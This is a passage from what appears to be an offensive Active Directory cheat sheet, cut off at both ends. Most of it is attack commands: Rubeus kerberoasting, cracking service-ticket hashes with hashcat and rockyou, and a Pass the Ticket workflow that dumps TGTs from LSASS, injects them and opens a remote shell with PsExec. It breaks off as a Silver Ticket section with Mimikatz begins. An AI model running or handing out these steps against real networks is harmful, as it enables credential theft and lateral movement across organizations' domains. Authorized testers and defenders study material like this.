 OR Rubeus

.\Rubeus.exe kerberoast /outfile:hashes.kerberoast


Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

```


* And finally, crack the hash
`hashcat -a 0 -m 13100 --force SPN.hash /wordlists/rockyou.txt`

### Pass the Ticket


* dump TGT from LSASS
* use TGT toact as domain admin by injecting it into current login sessions ID
* access services that can be accessed by the admin owner of the ticket


1. Perform triage with Rubeus: `.\Rubeus.exe triage`
2. see which tickets provide access to tgt
3. Dump these tickets with Rubeus: `.\Rubeus.exe dump /user:user_that_accessed_tgt`
4. Copy base64TGT and convert it to a single line string:
```
Windows:
$base64RubeusTGT=$(Get-Content ./tgt.txt) # where tgt.txt contains unstructured base64
$base64RubeusTGT.Replace(" ","").replace("`n","")

Linux:
tr -d '\n' < tgt.txt | tr -d ' '

Make kirbi ticket from BASE64 blob
[IO.File]::WriteAllBytes("c:\ok\xxx.kirbi", [Convert]::FromBase64String($xxx))

```
5. Pass Ticket converted string: `  .\Rubeus.exe ptt /ticket:$base64RubeusTGT`
6. If ticket owned has enough permissions try getting shell on target Computer: `  .\PsExec.exe -accepteula \\target_host.contoso.com cmd`

### Silver Ticket
Silver tickets are essential forged TGS tickets which grant you access to a particular service aka service-tickets

#### Mimikatz Workflow

Guide to mimikatz: https://adsecurity.org/?page_id=1821

1. Obtain SID

```powershell

whoami /user

# all numbebers before the relative identifier (last 4 numbers) are SID we need

```
